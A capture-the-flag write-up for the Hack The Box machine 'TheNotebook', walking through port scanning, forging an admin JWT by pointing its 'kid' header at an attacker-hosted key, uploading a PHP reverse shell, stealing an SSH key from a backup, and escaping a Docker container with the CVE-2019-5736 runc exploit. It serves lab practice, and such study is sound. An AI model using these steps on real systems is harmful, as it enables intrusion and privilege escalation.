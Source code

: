 ![THENOTEBOOK](banner.png)

    sudo nmap -sS -sV -p- 10.129.145.179
    PORT      STATE    SERVICE VERSION
    22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp    open     http    nginx 1.14.0 (Ubuntu)
    10010/tcp filtered rxapi
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Foothold

After registration on thenotebook.htb we get a cookie with a JWT token which we can decode on https://jwt.io/:

    "kid": "http://localhost:7070/privKey.key"
    ....
    "admin_cap": 0

We can abuse this and set admin_cap to 1. However to get a valid cookie we also need to change the kid value to our own ip and our own key like this:

    "kid": "http://10.10.14.14:7070/privKey.key"
    ....
    "admin_cap": 1

We create our key like this:

    ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
    
And start our webserver like this:

    python3 -m http.server 7070

We use the keys in the generator from https://jwt.io/ to create the new verified cookie.
After setting our cookie we get an admin panel where we can upload files.

We can simply upload [this reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and are now the www-data user.

## User

We find a backup:

    /var/backups/home.tar.gz

Which we can extract with `tar xfv home.tar.gz` and retrieve the private SSH key of Noah in `.ssh`.

We can use it like this to connect via ssh and retrieve the user.txt:

    ssh -i id_rsa noah@10.10.10.230

## Root

For PrivEsc we try sudo -l:

    User noah may run the following commands on thenotebook:
        (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

So we can run:

    sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash

to interact with the running docker-container webapp-dev01.
Enumerating the container we find that it is vulnerable to CVE-2019-5736, so we can use this [PoC](https://github.com/Frichetten/CVE-2019-5736-PoC).

In the main.go we change the payload to:

    var payload = "#!/bin/bash \n cat /root/root.txt > /tmp/rootflag && chmod 777 /tmp/rootflag"

Obviously we could put a rever shell in there aswell.

We create our main executable with `go build main.go` and download it to our webapp-dev01 container with wget.
Now just make it executable and run it:

    chmod +x main; ./main

While the console in the container displays: '[+] Overwritten /bin/sh successfully' we run:

    sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh

in a second ssh session of Noah.
After the message:

    No help topic for '/bin/sh'
 
we find the rootflag in /tmp/ as we wrote in our payload.
